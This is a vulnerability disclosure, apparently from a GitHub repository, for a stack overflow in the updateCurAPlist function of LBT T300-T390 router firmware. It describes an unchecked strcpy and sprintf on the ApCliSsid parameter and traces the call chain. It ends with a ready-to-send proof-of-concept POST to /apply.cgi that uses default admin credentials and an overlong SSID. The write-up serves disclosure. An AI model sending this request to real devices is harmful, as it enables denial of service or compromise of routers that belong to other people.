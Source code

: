 # LBT router updateCurAPlist function stack overflow vulnerability

> vendor:LBT
>
> product:T300-T390
>
> version:v2.2.1.8
>
> type:Stack Overflow

## Vulnerability Description

LBT T300-T390 were discovered to contain a stack overflow via the ApCliSsid parameter in the updateCurAPlist function.

## Vulnerability Details

There is a stack overflow in the ApCliSsid variable in the updateCurAPlist function in the Rc program. In line 15, the variable is obtained through the system nvram_get function. In line 18, it is directly called by the dangerous function strcpy without processing. In line 19, v9 after the strcpy function operation is not processed. And passed directly to the dangerous function sprintf, which may overflow the stack-based buffers v8 and v9.

The calling process of the overflow function is as follows:

Main()->sub_40BEC8()->start_lan()->start_wlan()->config_wlan()->generate_conf()->generate_conf_router()->updateCurAPlist()

![image](https://github.com/cvdyfbwa/IoT_LBT_Router/assets/150313831/ff4cb5dd-c7f8-4fec-a54c-672a76ff0b68)


## POC

    POST /apply.cgi HTTP/1.1
    Host: 192.168.10.1
    Content-Length: 697
    Cache-Control: max-age=0
    Authorization: Basic YWRtaW46YWRtaW4=
    Upgrade-Insecure-Requests: 1
    Origin: http://192.168.10.1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.61
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://192.168.10.1/apclient_scan.asp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
    Connection: close

    submit_button=apclient_scan&change_action=&wan_proto=9&action=Apply&wan_dns_enable=1&ApCliEnable=1&ApCliBssid=&ApCliChannel=6&ApClientBridgeEnable=1&wr_ApClientBridgeEnable=on&ApCliSsid=Remote_AP_SSID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ApCliAuthMode=OPEN&ApCliEncrypType=NONE&ApCli_wl_wep_len=0&ApCliDefaultKeyID=1&ApCliKey1Type=0&ApCliKey1Str=**********&ApCliKey2Type=0&ApCliKey2Str=**********&ApCliKey3Type=0&ApCliKey3Str=**********&ApCliKey4Type=0&ApCliKey4Str=**********&ApCliWPAEncrypType=TKIP&ApCliWPAPSK=12345678

   

    
